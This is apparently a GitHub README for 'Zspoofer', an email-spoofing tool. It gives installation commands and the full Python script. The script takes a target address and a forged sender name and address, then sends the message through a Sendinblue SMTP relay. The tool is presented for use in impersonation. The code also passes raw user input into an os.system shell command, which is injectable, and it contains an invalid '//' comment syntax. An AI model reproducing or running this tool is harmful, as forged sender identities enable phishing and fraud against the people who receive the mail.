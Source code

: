 # Zspoofer
Email spoofer by zereza

## Installation:
```bash
sudo apt install sendemail
git clone https://github.com/0x9B0x7A/zspoofer/
cd zspoofer
pip3 install -r requirements.txt
```
## Usage:
You must have an account in [sendinblue.com](https://www.sendinblue.com).

In order to use the script you will need to modify the script and put your [sendinblue](https://www.sendinblue.co) credentials here:
```python
#!/usr/bin/env python3
import os
from termcolor import colored
def main():
    print(colored(''' _________  ____   ___   ___  _____ 
|__  / ___||  _ \ / _ \ / _ \|  ___|
  / /\___ \| |_) | | | | | | | |_   
 / /_ ___) |  __/| |_| | |_| |  _|  
/____|____/|_|    \___/ \___/|_|    ''', 'red'))
    print(colored("\n\nTool developed by zereza\n\n", 'yellow', attrs=['bold']))
    username = "USERNAME FROM SENDINBLUE HERE" //   <------------------- HERE
    password = "PASSWORD FROM SENDINBLUE HERE" //   <------------------- HERE
    target = input(colored("The target's email  ---->    ", 'green'))
    name = input(colored("\n\nThe sender's name [OPTIONAL]  ---->   ", 'green'))
    sender = input(colored("\n\nThe sender of the email   ---->   ", 'green'))
    subject = input(colored("\n\nThe email subject  ---->   ", 'green'))
    message = input(colored("\n\nThe email message  ---->   ", 'green'))
    
    if name == '':
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" &>/dev/null')
        print(colored('Sent :)', 'yellow'))
    else:
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" -o message-header="From: '+name+' <'+sender+'>" &>/dev/null')
        print(colored('Sent :)', 'yellow'))
    
if __name__ == '__main__':
    main()
```
